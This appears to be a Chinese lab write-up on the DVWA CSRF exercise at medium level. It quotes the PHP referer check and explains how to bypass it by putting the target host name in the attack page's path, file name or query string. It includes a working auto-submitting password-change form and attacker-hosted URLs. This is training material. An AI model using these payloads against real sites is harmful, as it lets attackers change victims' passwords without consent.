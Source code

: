 由上面的代码可知增加了referer判断

```
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )
```

即如果 HTTP_REFERER 和 SERVER_NAME 不是来自同一个域的话就无法进行到循环内部，执行修改密码的操作。

所以我们需要手动伪造referer来执行CSRF攻击

我们要手动制作一个html表单

```
<html>
<head>
    <meta charset="utf-8">
    <title>CSRF</title>
</head>
<body>

<form method="get" id="csrf" action="http://127.0.0.1:8888/vulnerabilities/csrf/">
    <input type="hidden" name="password_new" value="222">
    <input type="hidden" name="password_conf" value="222">
    <input type="hidden" name="Change" value="Change">
</form>
<script> document.forms["csrf"].submit(); </script>
</body>
</html>
```

```
<script> document.forms["csrf"].submit(); </script>
```

通过自动触发提交id为csrf的表单

使用方法：

1.将上述 html 页面放到服务器的 `127.0.0.1` 目录下，然后让用户访问自动触发提交然后访问构造好的 payload 地址：

```
http://www.mengnankk.top/127.0.0.1/csrf.html
```

2.或者将上述html文件命名为127.0.0.1html然后访问

```
http://www.mengnankk.top/127.0.0.1.html
```

这里有一个小细节，如果目标网站是 http 的话，那么 csrf 的这个 html 页面也要是 http 协议，如果是 https 协议的话 就会失败。

3.因为？后默认当做参数传递，这里因为 html 页面是不能接受参数的，所以随便输入是不影响实际的结果的，利用这个特点来绕过 referer 的检测。

```
http://www.mengnankk.top/csrf.html?127.0.0.1
```

## HIGH
